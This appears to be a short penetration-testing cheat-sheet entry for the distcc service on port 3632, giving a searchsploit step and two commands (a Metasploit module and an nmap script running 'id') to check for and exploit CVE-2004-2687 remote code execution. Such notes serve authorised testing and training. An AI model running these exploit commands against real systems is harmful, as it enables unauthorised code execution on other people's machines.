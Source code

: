 # 3632 - distcc

## Searchsploit

```bash
searchsploit <service info>  # Use searchsploit on nmap Service output details
```

## Exploitation Checks

Check if it's vulnerable to **CVE-2004-2687** to execute arbitrary code:

```bash
msf5 > use exploit/unix/misc/distcc_exec
nmap -p 3632 <ip> --script distcc-exec --script-args="distcc-exec.cmd='id'"
```
